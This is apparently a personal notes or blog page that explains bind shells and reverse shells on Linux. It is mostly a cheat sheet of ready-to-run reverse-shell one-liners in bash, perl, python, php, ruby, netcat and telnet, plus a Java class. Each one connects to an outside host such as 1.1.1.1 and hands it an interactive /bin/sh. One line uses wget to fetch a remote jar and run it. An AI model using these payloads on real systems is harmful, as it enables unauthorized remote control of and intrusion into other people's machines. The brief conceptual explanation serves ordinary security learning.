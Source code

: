 ```yaml
---
title: Linux - reverse shell & Bind shell
date: 2020-11-01 11:11:11 -0400
categories: [30System, Sysadmin]
tags: [Linux, Sysadmin]
math: true
image:
---
```


[toc]

---

# Bind shell

Bind shell
- attacker's machine acts as a client
- victim's machine acts as a server opening up a communication port on the victim and waiting for the client to connect to it
- and then attacker issue commands that will be remotely executed on the victim's machine.

> This would be only possible if the victim's machine has a public IP and is accessible over the internet (disregarding all firewall etc. for the sake of brevity).


what if the victim's machine is NATed and hence not directly reachable ?
- attacker's machine is reachable.
- So attacker open a server and let the victim connect to him.
- This is what a reverse shell is.

---

# reverse shell

Reverse Shell
- attacker's machine (has a public IP and is reachable over the internet) acts as a server.
- It opens a communication channel on a port and waits for incoming connections.
- Victim's machine acts as a client and initiates a connection to the attacker's listening server.

Open two tabs in your terminal.
1. open TCP port 8080 and wait for a connection:
2. `nc localhost -lp 8080`
3. Open an interactive shell, and redirect the IO streams to a TCP socket:
4. `bash -i >& /dev/tcp/localhost/8080 0>&1`


```bash

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1;

# bash -i "If the -i option is present, the shell is interactive."

# >& "redirects both, stdout and stderr to the specified target."

# (argument for >&) /dev/tcp/localhost/8080 is a TCP client connection to localhost:8080.

# 0>&1 redirect file descriptor 0 (stdin) to fd 1 (stdout), hence the opened TCP socket is used to read input.

```

perl shell

```perl
perl -e 'use Socket;$i="1.1.1.1";$p=10086;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};';
```

python shell

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",10086));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';
```

php shell

```php
php -r '$sock=fsockopen("1.1.1.1",10086);exec("/bin/sh -i <&3 >&3 2>&3");';
```

ruby shell

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("1.1.1.1","10086");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end';
```

nc shell

```bash
nc -c /bin/sh 1.1.1.1 10086;
```

telnet shell

```
telnet 1.1.1.1 10086 | /bin/bash | telnet 1.1.1.1 10087; # Remember to listen on your machine also on port 4445/tcp

127.0.0.1; mknod test p ; telnet 1.1.1.1 10086 0<test | /bin/bash 1>test;
```

java jar shell

```java
wget http://1.1.1.1:9999/revs.jar -O /tmp/revs1.jar;

java -jar /tmp/revs1.jar;

import java.io.IOException;
public class ReverseShell {
    public static void main(String[] args) throws IOException, InterruptedException {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/10086;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```


---

ref
- [example](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
- [2](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

.
